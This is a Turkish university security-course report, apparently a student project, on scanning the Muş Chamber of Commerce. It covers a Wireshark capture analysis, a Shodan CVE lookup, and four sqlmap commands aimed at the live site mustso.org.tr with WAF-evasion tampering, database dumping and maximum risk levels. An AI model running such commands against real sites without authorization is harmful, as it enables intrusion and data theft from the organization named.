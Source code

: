 # Wireshark-Mustso-Final-Raporu

## mus_ticaret_sanayi_odasi.pcapng - dosyasını indirip wireshark'ta çalıtırabilirsiniz.
## Ek Tarama.pdf - Eğer görünmüyor ise indirip ondan sonra pdf'a bakabilirsiniz

### Ders Hakkında:<br>
Ders: Bilgi Sistemleri ve Güvenliği [YMH321] <br>
Danışman: Doç.Dr.Fatih ÖZKAYNAK<br>
Fakülte/Bölüm: Teknoloji Fakültesi/Yazılım Mühendisliği<br>
Üniversite: Fırat Üniversitesi/Elazığ<br>
<br>

# Wireshark

## 1. Bad TCP
tcp.analysis.flags && !tcp.analysis.window_update && !tcp.analysis.keep_alive && !tcp.analysis.keep_alive_ack <br>
Bad TCP 54 tane taradımız ağ’da bulduk, bunları göremek için github linkin’den ulaşabilirsiniz


## 2. ARP (Address Resulation Protocol)
Tipik bir kullanım, bir IP adresinin (ör. 192.168.0.10) temel Ethernet adresine (ör. 01:02:03:04:05:06) eşlenmesidir. ARP bu adreslerin keşfedilme şekli olduğundan, genellikle bir konuşmanın başında ARP paketlerini görürsünüz.
<br>Aşağıda 9 tane (ARP) paketini mustso’dan yakaladık. ARP bizim için önemli bir bilgidir.


## 3. HTTP (Hypertext Transfer Protocol)
Çok fazla içerik türü(content types) En kiritik buldumuz kısımda Application buldundu kısımdır.
Kötü amaçlı ve yazılım ararken kullandığınız etiket içerik türü ve uygulama türüdür.
Genelikle application ile başlayanları kötü amaçlı olarak kullanabiliriz, onları indirip ondan sonra deneyebiliriz ve eğer o uygulama çalışırsa hack ve kötü amaçlı olarak kullanabilir, o yüzden http protokolü çok önemli bir protokoldür.


## 4. TCP (Transmission Control Protocol)
Varsayılan olarak, Wireshark'ın TCP ayırıcısı her TCP oturumunun durumunu izler ve sorunlar veya olası sorunlar algılandığında ek bilgi sağlar. Bir yakalama dosyası ilk açıldığında analiz her TCP paketi için bir kez yapılır. Paketler, paket listesinde göründükleri sırayla işlenir.

### Bad TCP - Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
### HTTP Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.



# Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap ve Wireshark üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.

<br>

